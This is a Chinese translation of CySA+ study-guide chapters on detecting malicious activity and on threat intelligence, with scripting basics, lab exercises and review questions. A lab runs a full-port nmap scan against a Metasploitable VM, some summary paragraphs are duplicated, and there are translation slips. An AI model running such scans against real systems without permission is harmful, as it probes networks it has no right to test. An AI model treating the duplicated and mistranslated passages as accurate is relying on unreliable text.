`DMARC` 是一个利用 `SPF` 和 `DKIM` 来确定电子邮件消息是否真实的协议。与 `SPF` 和 `DKIM` 一样，`DMARC` 记录发布在 DNS 中，但与 `DKIM` 和 `SPF` 不同，`DMARC` 可判断是否应该接受来自发送者的消息。使用 `DMARC`，你可以拒绝或隔离不是支持 DMARC 的发送者发送的消息。你可以在 `https://dmarc.org/overview` 阅读 DMARC 的概述。

## 文件分析

分析文件是否存在潜在恶意内容和活动可能是一项复杂的活动。攻击者使用的工具通常使用打包和加密功能对恶意内容混淆，使得在不采取额外操作的情况下难以直接分析文件。安全实践人员通常在可能的情况下采取一些简单的步骤来执行快速的手动分析。

第一种技术是使用哈希处理将潜在的恶意或可疑文件与原始已知良好的文件进行比较。虽然存在像 `Tripwire` 这样根据哈希值持续监控文件的工具，但手动哈希可以使用 Linux 内置的 `SHA256` 甚至 `MD5` 工具，以及 Windows 中通过 `PowerShell` 提供的工具来比较哈希值。

第二种常见技术是在文件中搜索字符串（即从二进制文件中可以恢复的文本）。当你想要查看编译后的程序（如可执行文件）以查看它可能做什么时，这种方法非常有用。Linux 的 `strings` 命令可以通过梳理文件并以人类可读的列表显示这些字符串，来帮助你分析文件。虽然 `strings` 命令没有列在考试大纲中，但像使用 `strings` 快速查看可疑文件的技术通常是文件分析的一部分。

## 沙箱

CySA+ 考试大纲指出的用于确定恶意活动的最后一种工具是沙箱工具。`Sandboxes` 建立了一个安全的、经过仪器监测的环境，你可以在其中运行潜在的恶意文件和应用程序，以确定它们尝试做什么以及如何做。

有很多在线沙箱选项，但考试大纲中特别提到了两种。第一个是 `Joe Sandbox`，这是一个商业沙箱服务，提供免费的基础选项，可以针对多个操作系统进行测试，并允许使用名为“食谱”（cookbook）的参数和选项进行高级选项。可以在 `www.joesandbox.com` 找到 Joe Sandbox。

另一个选项是 `Cuckoo Sandbox`，这是一个可以作为自托管工具的自动化恶意软件分析工具。`Cuckoo` 不限于恶意软件，还分析 PDF；Microsoft Office 等文件以及恶意网站。当然，自己运行 `Cuckoo` 意味着你需要考虑潜在恶意行为的可能性，因此尽管它是为安全而设计的，你也应该隔离 `Cuckoo` 系统。你可以在 `cuckoosandbox.org/` 找到 Cuckoo Sandbox。

这两个工具都会分析网络流量和 API 调用，以及它们所分析的制品所采取的其他操作。

## 用户行为分析

`用户行为分析` 依赖于对典型用户行为以及与恶意行为最常见的行为的理解。异常账户活动`取决于账户——在许多情况下，典型用户不太尝试使用管理权限、在典型时间之外登录，或从另一个国家登录。因此，基线和行为分析通常被用于识别行为可能表明其账户被盗用或其本人正在恶意操作的用户。一种常见的指标被称为`不可能旅行`，或从不同地点的的登录，且无法通过地点间的旅行得到合理解释。

## 数据格式

编写和使用基本脚本搜索日志中的特定项目，以及进行基础文本处理和其他任务的能力，在许多安全分析师职位中都是需要的。`Python` 是目前最流行的语言之一，但其他语言如 `PowerShell` 和脚本语言如 `Bash` 脚本仍然很常见。你应该熟悉 CySA+ 考试的一些基本技术、区分特性和语言基础。在接下来的页面中，我们将探索 `Python` 和 `PowerShell` 的基础“你好世界”脚本以帮助熟悉它们。

`Python` 是一种解释型编程语言，广泛用于信息安全工具以及许多安全实践人员的通用编程。

我们可以使用 `print` 命令在 `Python` 中输出。这里是为安装了 Python 的系统创建我们的“你好世界！”脚本所需的单行代码：

```python
print("Hello, world!")
```

如果我们将其保存为 `hello.py`，我们可以使用以下命令执行它：

```
python ./hello.py
```

最后，我们来看一下输出结果：

```
Hello, world!
```

由于 Python 是一种解释型语言，它可以像这里这样直接运行。这使得 Python 成为编写比 shell 脚本更复杂的可移植程序的易于选择。

`PowerShell` 是 Windows 原生的 shell 脚本环境。它最初由微软设计供 Windows 系统管理员使用，现在是一项适用于 Windows、Mac 和 Linux 平台的开源工具。然而，考虑到 Mac 和 Linux 系统提供了其他 Unix shell，`PowerShell` 通常仍然与 Windows 操作系统相关联。在非 Windows 系统上运行 `PowerShell` 的常见用例是为了代码兼容性。

你发现在 Windows 系统上预装了 `PowerShell`。要在 `PowerShell` 中创建我们的“Hello, world!”脚本，你只需要一行代码：

```
Write-Host "Hello, world!"
```

使用你喜欢的文本编辑器将脚本保存到系统中的目录中。按照惯例，开发者使用 `.ps1` 扩展名命名 `PowerShell` 脚本。

一旦保存了脚本，你就可以尝试使用此命令运行它：

```
.\hello.ps1
```

如果你以前在系统上未使用过 `PowerShell` 脚本，当你尝试执行第一个脚本时，可能会看到如下所示的错误信息：

```
.\hello.ps1 : File C:\Users\Administrator\hello.ps1 cannot be loaded. The file 
C:\Users\Administrator\hello.ps1 is not digitally signed. You cannot run this 
script on the current system. For more information about running scripts and 
setting execution policy, see about_Execution_Policies at 
[LinkID=135170](http://go.microsoft.com/fwlink/?LinkID=135170).
At line:1 char:1
+ .\hello.ps1
+ ~~~~~~~~~~~
+ CategoryInfo : SecurityError: (:) [], PSSecurityException
+ FullyQualifiedErrorId : UnauthorizedAccess
```

此错误发生的原因是 Windows 系统默认配置为阻止执行 `PowerShell` 脚本。你需要更改 `PowerShell` 执行策略以允许它们运行。共有五种可能的策略：

- `Restricted` 是默认的 `PowerShell` 执行策略，它阻止所有对 `PowerShell` 脚本的使用。

- `AllSigned` 要求你运行的任何 `PowerShell` 脚本必须由受信任发布者签名。

- `RemoteSigned` 允许执行你在本地上编写的任何 `PowerShell` 脚本，但要求从互联网下载的脚本必须由受信任发布者签名。

- `Unrestricted` 允许执行任何 `PowerShell` 脚本，但在运行从互联网下载的脚本之前会提示你确认请求。

- `Bypass` 允许执行任何 `PowerShell` 脚本，并且不对从互联网下载的脚本产生任何警告。

你不是受信任的发布者，因此你应该将执行策略设置为 `RemoteSigned`，以便运行自己的脚本，但仍要求下载的脚本来自受信任发布者。你可以使用此命令更改执行策略：

```
Set-ExecutionPolicy RemoteSigned
```

注意，你必须以管理员身份启动 `PowerShell` 来更改执行策略。

一旦修复完成，再次尝试运行脚本，你应该看到此输出：

```
Hello, world!
```

## 正则表达式与 `grep`

使用 `grep` 进行字符串（文本）搜索是一项频繁的任务。`grep` 是一个强大的工具，经常与其他命令结合使用，为其他工具准备输入数据。要将数据从一个命令行工具发送到另一个工具，你可以使用管道，由符号 `|` 表示。例如，如果你 `grep` 搜索一个字符串，并知道会看到多页输出且想对输出进行分页处理，可以将 `grep` 的输出管道到 `more` 命令中：

```
grep string | more
```

`正则表达式 (regex)` 也用于匹配字符集。在 `[]` 之间的字母将匹配任何字符，而 `*` 将匹配任意次数的出现。因此，要匹配任何集合，你可以使用以下命令：

```
grep "[abc]" example.txt
```

`grep` 列出了一些常用的标志：

| `grep` 标志 | 功能 |

| :--- | :--- |

| `-c` | 统计匹配数量 |

| `-i` | 同时匹配大小写 |

| `-n` | 显示行号 |

| `-v` | 显示不匹配的行 |

| `-r` | 递归读取目录下的所有文件 |

| `-e` | 允许多个模式 |

| `-w` | 匹配整个单词 |

## 数据格式

CySA+ 考试大纲还涉及两种数据格式：JSON 和 XML。JSON 使用 JavaScript 表示法和人类可读文本进行数据交换，而 XML 是一种具有类似目的标记语言——它既是机器人类可读的，应用范围比 JSON 更广。

如果你需要判断文件是否以 JSON 编码，可以寻找花括号的开启和关闭语句。例如，一个 JSON 文件可能包含以下内容：

```json
{
  "menu": {
    "filetype": "file",
    "popup": {
      "menuitem": [
        {"value": "Create", "onclick": "NewFile()"},
        {"value": "Edit", "onclick": "EditFile()"},
        {"value": "Delete", "onclick": "DeleteFile()"}
      ]
    }
  }
}
```

注意 JSON 代码中使用花括号和方括号。类似的 XML 文件将使用角括号开启和关闭语句，就像 HTML 一样。例如，菜单项可能列如下：

```xml
<menuitem value="Create" onclick="NewFile()"/>
```

关于 JSON 和 XML 有更多内容需要了解，但为了考试目的，你通常可以阅读任何一种格式来理解其含义，因为它们都是逻辑结构化的且通常人类可读的。

## 总结

识别恶意活动需要对网络、系统、服务和应用程序具有可见性。从你组织基础设施和系统的每个组件中收集并集中信息，可以让你更容易地检测、响应甚至防止事件发生。同样的信息也可以帮助你及早检测入侵指标（IOC），从而可能在入侵变成严重泄露之前阻止它们。

网络监控通常通过基于路由器的监控进行，它依赖于网络流（network flows）、SNMP 和日志，这些都是收集信息的常见手段。流（Flow）提供了关于流量、协议和端点的摘要数据；SNMP 用于收集设备信息；日志则提供洞察，同时也对于发送到集中安全基础设施非常有用。此外，组织还采用主动监控通过发送流量来收集数据。被动监控则依赖于在流量流过网络设备时捕捉有关网络及其性能的信息。被动监控不会给网络增加流量，并且在事后发生，而不是提供实时信息，因此它对于问题分析比预防问题更有用。

网络监控工具汇聚了多种类型的网络数据，并提供集中可视化和详细的钻取分析能力。它们对于事件响应和事件管理至关重要，因为它们既允许轻松的可视化，又允许在一个地方查看来自多个数据源的数据，从而让你能够更容易检测到链路故障、信标行为（beaconing）和异常流量等问题。可以使用监控工具检测攻击和探测，有时可能由网络安全设备进行识别并防止。

监控主机需要对资源、应用程序和日志具有可见性。主机资源监控通常关注处理器、内存和磁盘利用率，而应用程序通常使用集中管理工具进行管理。日志监控依赖于对记录内容的理解以及哪些问题是审查审查。监控未经授权的更改和行为是主机相关监控以及针对恶意活动分析的关键部分。

应用程序问题通常通过监控服务异常（如错误、失败或服务行为的变化）来检测。安全专业人员会寻找异常活动、新的且意料之外的账户创建、意外的输出或出站通信、服务中断和内存溢出问题。与网络和主机数据类似，日志也提供了有关应用程序的关键信息，并通常发送到安全管理和监控工具。

工具是安全分析师实践中不可或缺的一部分，包括执行数据包捕、日志分析与关联、终端安全管理与响应，以及利用 DNS 和 IP 声誉、进行文件分析和使用沙箱。在使用这些工具时的常用技术包括识别命令与控制（C2）流量的模式识别、文件分析、用户行为分析，当然还有电子邮件分析。

分析师还需要熟悉基础编程和脚本工具，包括 Python、PowerShell、Linux Shell 脚本以及正则表达式的使用。作为安全工作的一部分，你还需要理解并能够读取 JSON- 和 XML 编码的文件。

## 考试要点

### 分析网络相关的潜在恶意活动。

理解网络带宽是如何消耗的，以及它如何与检测和检测相关。识别并解释常见的网络问题，包括带宽消耗、信标行为、不规则的点对点通信、扫描、探测（sweeps）、流量激增和异常流量。理解如何识别异常端口上的活动，以及如何识别非法设备。

### 分析主机相关的潜在恶意活动。

监控系统资源使用情况（包括 CPU、内存和磁盘空间）有助于识别恶意活动。在搜索恶意活动和妥态指标（IoC）时，理解意外的处理器、驱动器和内存消耗意味着什么。解释如何识别未经授权的软件、文件系统、权限和注册表更改，以及恶意进程和未经授权的更改。利用内置系统工具搜索并识别这些事件和更改。描述数据外泄以及如何识别它。解释计划任务以及如何搜索对其未经授权的更改。

### 分析应用程序相关的潜在恶意活动。

使用工具和监控服务异常（如错误、失败或服务行为的变化）。安全专业人员会寻找异常活动、新的且意料之外的账户创建、意外的输出或出站通信、服务中断和内存溢出问题。与网络和主机数据类似，日志也提供了有关应用程序的关键信息，并通常发送到安全管理和监控工具。

工具是安全分析师实践中不可或缺的一部分，包括执行数据包捕、日志分析与关联、终端安全管理与响应，以及利用 DNS 和 IP 声誉、进行文件分析和使用沙箱。在使用这些工具时的常用技术包括识别命令与控制（C2）流量的模式识别、文件分析、用户行为分析，当然还有电子邮件分析。

分析师还需要熟悉基础编程和脚本工具，包括 Python、PowerShell、Linux Shell 脚本以及正则表达式的使用。作为安全工作的一部分，你还需要理解并能够读取 JSON- 和 XML 编码的文件。

## 实验

### 活动 3.1：识别网络扫描

在实验中，你将使用 Wireshark 识别网络扫描。

#### 第一部分：启动 Kali Linux 系统和目标系统并设置实验

1. 启动你的 Kali Linux 虚拟机和 Metploitable 虚拟机；登录两者。

2. 在 Kali Linux 系统上打开终端窗口和 Wireshark（Wireshark 可以在应用程序菜单的 09 嗅探与欺骗下找到）。

3. 确定目标系统的 IP 地址。

4. 在 Metploitable 系统上的命令行输入 `ifconfig -a` 并记录其 IP 地址。

5. 启动 Wireshark 捕获。选择 `eth0` 接口然后选择 Capture -> Start。

#### 第二部分：执行网络扫描并访问 Web 服务器

1. 从终端执行命令：`nmap -p 1-65535 [metploitable 机器 IP 地址]`。

2. 记录一个显示为开启的端口。

3. 在 Kali 中启动 IceWeasel 并导航到 Metploitable 的 IP 地址。

#### 第三部分：识别扫描流量

1. 停止 Wireshark 捕获。点击 Wireshark 屏幕左角的红色停止按钮。

2. 审查捕获的流量。在过滤器框中输入 `tcp.port==[你识别的端口]` 来搜索。

3. 发送了什么流量？如果你使用其他 TCP 连接选项（如 `-sS` 或 `-ST`）重新运行扫描，会有变化吗？

4. 审查端口 80 的流量。你应该看到扫描和来自 Kali Linux 浏览器的访问。

### 活动 3.2：编写应用程序和服务问题响应计划

请为你你熟悉的某个组织所依赖的应用程序和服务编写一份识别与响应计划。你的响应计划应假假设已经报告了服务问题或停机，但原因尚不明确。请确保你涵盖了本章中讨论的关键要素，包括：

* 你将如何使用应用程序日志和系统日志来识别潜在问题。你能够识别出异常行为吗？

* 你将如何监控服务以发现问题。

* 你会寻找哪些类型的问题。

* 该组织的响应应当是什么。

完成计划后，请使用一个示例问题对其进行演练。确保你的计划能够解决该问题，并且你能够向你组织的管理层提供关于该问题的完整报告。

## 活动 3.3：分析钓鱼邮件

你可能已经为这个实验练习准备了很好的源材料：只需打开你的电子邮件垃圾邮件箱，找到一封可能是钓鱼攻击的邮件即可。

### 第一部分：手动分析邮件标头

* 一旦你识别出一封怀疑的钓鱼邮件，你就需要打开该邮件的标头。如果你不熟悉流程，大多数电子邮件提供程序都提供了关于如何访问标头的帮助。

* 将标头打印出来进行分析，或将其导入你喜爱的文本编辑器中以便在跟踪发现的内容时进行标记，这会有帮助。

* 检查标头并识别你能找到的关于邮件发自哪里、谁发送的以及它在你收到之前经过了什么路径的线索。哪些红旗（异常信号）非常明显？你会如何根据标头信息识别未来的钓鱼邮件？

### 第二部分：分析邮件内容


现在你已经检查了标头，可以移动到邮件正文了。在此阶段，检查消息内容，特别关注钓鱼邮件中常见的伪装。你应该寻找嵌入链接并记录任何欺骗性的链接或嵌入内容。你还可以识别拼写错误、糟糕语法以及钓鱼邮件的其他典型元素。

一旦你识别了这些组件，使用类似于`http://zeltser.com/lookup-malicious-websites`的工具对链接进行检查。该链接或域名是一个已知的恶意链接？

### 第三部分：使用自动化工具

使用一个或多个自动化邮件标头分析器来检查第一部分中的标头。注意你是否识别了额外的有用数据以及那些数据是什么。

有许多网站可用；你可以从`www.whatismyip.com/email-header-analyzer/`或`mxtoolbox.com/EmailHeaders.aspx`开始。

## 复习题

1. 以下哪种 Linux 命令可以显示磁盘空间的使用情况如何？

   1. `top`

   2. `df`

   3. `lsof`

   4. `ps`

2. 哪种 Windows 工具提供了详细信息，包括关于 USB 主控制器、内存使用和磁盘传输的信息？

   1. Statmon

   2. Resmon

   3. Perfmon

   4. Winmon

3. 你应该捕获什么类型的网络信息，以便提供关于网络系统向远程系统发送了多少流量的报告？

   1. Syslog 数据

   2. WMI 数据

   3. Resmon 数据

   4. 流数据 (Flow data)

4. 以下技术最适合防止有线非法设备连接到网络？

   1. NAC

   2. PRTG

   3. 端口安全 (Port security)

   4. NTP

5. 作为工作的一部分，Danielle 设置了一个闹钟，如果她的 Windows 服务器使用了 80% 的内存，将通过电子邮件通知她的团队，如果达到 90% 的利用率，则发送短信。这种设置被称为什么？

   1. 监控阈值 (A monitoring threshold)

   2. 预设通知级别 (A preset notification level)

   3. 页面监控 (Page monitoring)

   4. Perfmon 校准 (Perfmon calibration)

6. Chris 正在查看一个漏洞包的一部分的文件。他注意到有一个文件的内容带有大括号 `{}`。根据以下列表，他最可能在查看哪种文件类型？

   1. 纯文本 (Plain text)

   2. JSON

   3. XML

   4. HTML

7. 哪个术语描述向控制服务器（command and control server）发送心跳流量？

   1. 信标 (Beaconing)

   2. 僵尸网络 (Zombie)

   3. CNC

   4. 日志 (Log)

8. Cameron 正在查看一个漏洞包的一部分的文件。他想检查该文件是否为已知的恶意。

   1. 解密文件 (Decrypt the file)

   2. 哈希文件 (Hash the file)

   3. 查询文件 (Query the file)

   4. 比较文件 (Compare the file)

9. MAC 地址可以告诉你什么？

   1. 操作系统 (Operating system)

   2. 存活时间 (TTL)

   3. 类型 (Type)

   4. 制造商 (Manufacturer)

10. Jim 如何最有效地定位非法接入点？

   1. Nmap

   2. 信号强度 (Signal strength)

   3. 三角测量法 (Triangulation)

   4. NAC

11. 以下哪种工具提供了 Windows 的实时驱动器监控？

   1. 配置管理器 (Configuration Manager)

   2. Resmon

   3. SCOM

   4. Perfmon

12. 哪个术语描述一个伪装成合法的链接？

   1. 混淆 (Obfuscated)

   2. 符号 (Symbolic)

   3. 钓鱼 (Phishing)

   4. 诱饵 (Decoy)

13. Angela 想查看 Linux 系统上的 syslog。她应该检查哪个目录来查找它？

   1. `/home/log`

   2. `/var/log`

   3. `/log`

   4. `/var/syslog`

14. Laura 想查看一封她的员工怀疑的邮件标头。为了保留标头，她不应该做什么？

   1. 打印邮件 (Print the email)

   2. 回复邮件 (Reply to the email)

   3. 转发邮件 (Forward the email)

   4. 下载邮件 (Download the email)

15. 以下哪项是 SIEM 和 SOAR 之间的关键区别？

   1. SIEM 提供仪表板。

   2. SOAR 提供自动化响应能力。

   3. SOAR 不提供日志聚合。

   4. SIEM 提供日志分析。

16. 以下哪种选项不是检查 Windows 服务状态的有效方法？

   1. 在命令行中使用`sc`。

   2. 在命令行中使用`service --status`。

   3. 使用`services.msc`。

   4. 使用 PowerShell 查询服务状态。

17. Avik 被要求识别她网络中的异常流量。以下哪种技术不是她应该使用的？

   1. 协议分析 (Protocol analysis)

   2. 启发式算法 (Heuristics)

   3. 基准分析 (Baselining)

   4. 信标 (Beaconing)

18. Sofia 怀疑数据中心的一个系统可能正在向远程系统发送信标流量。以下哪种工具不是帮助验证她怀疑的有用工具？

   1. 流 (Flows)

   2. 协议分析器 (Protocol analyzer)

   3. SNMP

   4. IDS 或 IPS

19. Susan 想使用一种电子邮件安全协议来确定邮件的真实性。以下哪种选项可以确保她的电子邮件服务器可以判断是否接受来自发送者的邮件？

   1. DMARC

   2. SPF

   3. DKIM

   4. POP3

20. Juan 想以交互式格式显示带有 CPU 利用率的进程列表。他应该使用哪种 Linux 内置工具？

   1. `df`

   2. `top`

   3. `tail`

   4. `cpugrep`

所有类型的安全专业人员都需要充分理解威胁，以防止它们或限制其影响。为了做到这一点，你需要威胁情报：关于你的对手的数据、他们的动机、能力，以及他们可能使用的战术、技术和程序（TTPs）。此外，你还需要了解当你的对手得手时，应该关注哪些信息。

威胁情报的收集依赖于现实世界的信息收集、证据采集和分析。威胁情报可以分为三个级别。第一种是`战略情报`（strategic intelligence），它提供关于威胁和威胁活动者的广泛信息，使组织能够理解并应对趋势。第二是`战术威胁情报`（tactical threat intelligence），包含了更详细的技术和行为信息，对安全专业人员以及负责防御和响应的其他人员有直接帮助。最后，`运营威胁情报`（operational threat intelligence）由高度详细的信息组成，允许对特定威胁做出响应，并且通常包括关于其来源、谁创建了它或随时间如何变化的、它是如何投递或如何传播的、它试图做什么、如何移除它以及如何防止它的信息。

在本章中，你将学习许多类型的威胁情报，包括评估给定威胁情报源的相关性和准确性的来源和方法。存在一个巨大的威胁情报社区，我们将讨论你可以在工作中使用的来源。我们还将谈论威胁分类和威胁活动者。最后，你将学习如何作为威胁猎寻活动的一部分，将威胁情报应用于整个组织中。

## 威胁数据与情报

威胁情报有许多来源，从你可以从公开来源收集的开源情报（OSINT），到提供专有或闭源情报信息的商业服务。越来越多的产品和服务已经具备了消费威胁馈送数据的能力，允许你在整个基础设施和系统中利用这些数据。

无论来源如何，威胁馈送（threat feeds）旨在提供有关威胁的最新细节，以便你的组织可以利用。威胁馈送通常包含诸如 IP 地址、主机名和域名、电子邮件地址、URL、文件哈希值、文件路径、常见漏洞与披露（CVE）编号以及关于威胁的其他细节。通常还会包含额外信息以帮助使信息变得相关且易于理解，包括可能导致你的组织成为目标或易受威胁的细节、威胁活动者的描述，甚至关于他们的动机和方法论的细节。

### 开源情报

`开源威胁情报`（open source threat intelligence）是从公开来源获取的威胁情报。许多组织已经意识到开放共享威胁信息有多用，开源威胁情报已变得广泛可用。事实上，现在的挑战通常在于决定使用哪些威胁情报源，确保它们是可靠且实新的，并充分利用它们。

一些网站维护着广泛的开源威胁信息源列表：

* `Senki.org` 提供了一个列表：`www.senki.org/operators-security-toolkit/open-source-threat-intelligence-feeds`。

* 由 AlienVault 运营的开放威胁交换（OTE）是全球安全专业人员和威胁研究人员社区的一部分：`https://cybersecurity.att.com/open-threat-exchange`。

* MISP 威胁共享项目提供来自许多来源的标准化威胁馈送：`www.misp-project.org/feeds`，具有社区驱动的集合。

* `Threatfeeds.io` 托管了一个开源威胁情报馈送列表，包含关于它们添加和修改时间的细节、维护者以及其他有用信息：`https://threatfeeds.io`。

除了开源和社区威胁数据源外，还有许多政府和公共的威胁情报数据源。例如，图 4.1 显示了 CISA 网站上的告警列表。

**政府网站：**

* 美国网络安全和基础设施安全局（CISA）网站：`www.cisa.gov/uscert`

* 美国国防部网络犯罪中心网站：`www.dc3.mil`

* CISA 的自动指标共享（AIS）程序 `www.cisa.gov/ais`，以及他们的信息共享与分析组织（ISAOS）程序 `www.cisa.gov/information-sharing-and-analysis-organizations-isaos`

**厂商网站：**

* 微软的威胁情报博客：`www.microsoft.com/security/blog/tag/threat-intelligence`

* 思科的威胁安全网站包含一个带有威胁研究信息的专家博客 `https://tools.cisco.com/security/center/home.x`，以及 Cisco Talos 信誉查询工具 `https://talosintelligence.com`



`图 4.1` 来自 CISA 网站的告警列表

**公共来源：**

* SANS 风暴中心：`https://isc.sans.org`。

* VirusShare 包含上传到 VirusTotal 的恶意软件详情：`https://virusshare.com`。

* Spamhaus 专注于黑名单，包括通过 Spamhaus 黑名单（SBL）发送的垃圾邮件、漏洞黑名单（XBL）上的被劫持和受感染计算机、策略黑名单（PBL）、不路由或对等列表（DROP）列出的你可能不想允许流量的网块，以及各种其他信息：`www.spamhaus.org`。

CySA+ 考试大纲还列出了其他你应该记住的开源情报源：

* 社交媒体可以提供非常及时的信息，但也可能难以确定信息的真实性或来源。识别信任的来源并验证从不可信来源接收的信息可能会花费大量的时间和资源。

* 博客和论坛不像几年前那么常用，但仍然可以提供信息。它们仍然是深度分析和细节的有用来源。

* 计算机应急响应小组（CERT）和网络安全事件响应小组（CSIRT）网站及组织通常通过其网站和社交媒体源提供公开信息。如果你能识别出与你的组织面临相似威胁的行业相关组织，这些信息将特别有用。

* 最后，暗网或深层网络可以是有用的资源。商业数据馈送通常包含来自威胁活动者论坛和其他被认为是暗网一部分的自动化和人工源的情报信息。与所有这些类型的信息一样，验证信息可能具有挑战性，但直接获取威胁活动者的对话和数据可能极具价值且及时。

这些只是安全从业人员可以使用的一些开源情报资源；它们可以让你对可用资源有一个良好的了解。

### 专有和闭源情报

商业安全厂商、政府组织和其他以安全为中心的组织也创建并使用专有的、或`闭源情报`。他们进行自己的信息收集和研究，并可能自定义工具、分析模型或其他专有方法来收集、策划和维护他们的威胁馈送。他们可能会作为信息共享协议或组织的一部分、作为`付费馈送`与他人共享信息，或者将情报仅供内部使用。

使用专有威胁情报有许多原因。组织可能希望对其威胁数据保持保密，他们可能想要出售或授权这些数据，且其方法和来源是他们的商业秘密，或者他们可能不想让威胁攻击者知道他们正在收集的数据。

商业闭源情报通常是服务提供的一部分，对于安全专业人员来说，这是一个极具吸引力的资源。通过开源威胁情报馈送获取的海量数据让许多组织感到无不从心。筛选威胁馈送以识别相关的威胁，然后确保这些威胁既得到了良好的定义，又恰适用于你的组织，这可能需要投入巨大的精力。在许多情况下，验证威胁数据可能是困难的，一旦你确保拥有了高质量的威胁数据，你仍然需要对其进行处理！

### 评估威胁情报

无论你的威胁情报信息来源如何，你都需要对其进行评估。在评估威胁情报源或特定的威胁情报通知时，会有许多共同因素起作用。评估这些因素决定了你或你的组织对数据的`置信度`（confidence level）。

- 是否具有及时性？延迟运行的馈送可能会导致你错过威胁，或者在威胁失去相关后才做出反应。

- 信息准确吗？你是否可以依赖其所描述的内容，评估有效的概率有多大？它是依赖于单一源还是多个源？这些源正确的频率有多高？

- 信息相关吗？如果它描述了错误的平台、软件或该组织成为目标的原因，那么这些数据可能非常及时、非常准确，但与你的组织完全不相关。

总结威胁情报评估数据的一种方法是通过`置信评分`（confidence score）。置信评分允许组织根据其对数据赋予的信任程度来过滤和使用威胁情报。这并不意味着低置信度的信息没有用；事实上，许多威胁情报都是从较低的置信评分开始，随着信息的固化以及额外信息源的确认或能够进行完整分析，该评分会随之增加。低置信度的威胁情报信息不应被完全忽略，但也不应在不考虑低置信评分的情况下就依赖它来做出重要决策。

### 威胁情报共享

威胁情报共享通常作为组织安全运营的一部分出现。事实上，威胁情报共享在许多关键运营安全实践中都起着作用：

- 对于事件响应，威胁情报是识别威胁攻击者及其常用技术和工具的关键部分。了解威胁攻击者可能部署什么，以及他们通常如何使用其工具和技术，可以使目标识别、响应计划和清理工作都变得简单得多。

- 漏洞管理工作也利用威胁情报。理解当前的活跃威胁可以帮助安全专业人员更好地评估风险，并影响补丁周期和优先级工作。知道某个广泛部署的防火墙厂商的当前软件版本存在零日漏洞，或者你的组织首选的数据库存在正被攻击的缺陷，可能会导致典型的补丁周期与紧急（尽管有风险）的更新之间产生区别。

- 检测和监控严重依赖威胁情报信息，以实现及时更新并创建新的检测规则。共享的威胁情报允许更快的响应和更好的行为检测能力，并使情报共享社区更具韧性。

- 安全工程工作也考虑了威胁情报。虽然安全工程同时关注当前和未来的需求，但威胁情报可以提供关于威胁方向的有用视角，以及在安全设计的生命周期内哪些威胁可能会增长。它们还可以影响可能集成到设计更新中的威胁响应。

总而言之，所有这些威胁情报共享的用途都是组织风险管理工作的一部分。现代组织需要确定他们将如何获取、消费和响应与他们相关的威胁情报。获取、处理威胁情报已成为许多安全运营团队成员的主要运营职责之一。

### 基于标准的威胁信息共享

管理任何规模的威胁信息都需要标准化的工具，以便威胁信息以自动化的方式进行处理和使用。通过定义的术语集，指标管理可以变得简单得多。这就是`STIX`和`OpenIOC`等结构化标记语言用用场。

`结构化威胁信息表达式 (STIX)` 是最初由美国国土安全部赞助的 XML 语言。`STIX` 2.1（本文写作当前版本）定义了 12 个 `STIX` 领域对象，包括攻击模式、身份、恶意软件、威胁攻击者和工具等。这些对象通过两种 `STIX` 关系对象模型之一相互关联：要么作为关系（relationship），要么作为观测（sighting）。一个威胁攻击者的 `STIX` 2.0 JSON 描述可能如下：


```json
{
  "type": "threat-actor",
  "created": "2019-10-20T19:17:05.000Z",
  "modified": "2019-10-21T12:22:20.000Z",
  "labels": [ "crime-syndicate"],
  "name": "Evil Maid, Inc",
  "description": "Threat actors with access to hotel rooms",
  "aliases": ["Local USB threats"],
  "goals": ["Gain physical access to devices", "Acquire data"],
  "sophistication": "intermediate",
  "resource:level": "government",
  "primary_motivation": "organizational-gain"
}
```

`sophistication` 和 `resource:level` 等字段使用了定义的词汇选项，允许 `STIX` 2.0 用户一致地将数据作为自动化和手动系统的一部分。

自创建以来，`STIX` 已移交给 `OASIS`（结构化信息促进组织），这是一个国际非营利联盟，维护着许多与信息格式相关的项目，包括 XML 和 HTML。

`STIX` 的伴侣是`信任自动指标交换 (TAXII)` 协议。`TAXII` 旨在通过 HTTPS 在应用层允许网络威胁信息。`TAXII` 专门为支持 `STIX` 数据交换而设计。你可以在 `OASIS` 的 GitHub 文档站点详细阅读关于 `STIX` 和 `TAXII` 的内容：`https://oasis-open.github.io/cti-documentation`。

另一个选项是`开放入侵指标 (OpenIOC)` 格式。像 `STIX` 一样，`OpenIOC` 是基于 XML 的框架。`OpenIOC` 架构由 `Mandiant` 开发，它使用 Mandiant 的指标作为基础框架。典型的 IOC 包含作者、IOC 名称和描述等元数据；对调查或案件的引用以及有关 IOC 成熟度的信息；以及入侵指标的定义，其中可能包含实际入侵的细节。

情报循环的第一个阶段是为你的情报需求制定计划。你的需求可能是由于成功的破入和渗透、行业趋势，或为你的组织进行的风险评估而产生的。在这一步中，你通常会执行以下操作：

